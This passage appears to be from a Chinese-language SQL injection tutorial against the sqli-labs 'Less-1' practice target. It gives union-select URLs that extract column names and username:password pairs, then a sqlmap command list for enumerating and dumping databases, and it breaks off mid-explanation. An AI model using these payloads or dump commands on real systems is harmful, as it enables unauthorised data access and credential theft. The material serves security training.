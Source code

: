 ### 获取字段 ###

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,%20user(),group_concat(column_name)%20from%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%23`

![17](https://i.imgur.com/yXgseWp.png)

### 获取值 ###

`http://10.60.250.214/Less-1/?id=-1' union select 1,2,group_concat(username,':',password) from users%23`

![18](https://i.imgur.com/72LA4RH.png)

## SQLMAP ##

### 基础命令 ###

SQLMAP的基础命令如下：

>列举数据库

sqlmap -u “注入地址” -v 1 –-dbs

>当前数据库

sqlmap -u “注入地址” -v 1 –-current-db

>列数据库用户

sqlmap -u “注入地址” -v 1 –-users


>当前用户

sqlmap -u “注入地址” -v 1 –-current-user

>列举数据库的表名

sqlmap -u “注入地址” -v 1 -D “数据库” –-tables

>获取表的列名
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” –-columns

>获取表中的数据
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” -C “字段” –-dump

### 获取数据库 ###
**-u** 
<font color=#8470FF>
**指定url** 
</font>


**--dbs** 
<font color=#8470FF>
**爆破数据库** 
</font>
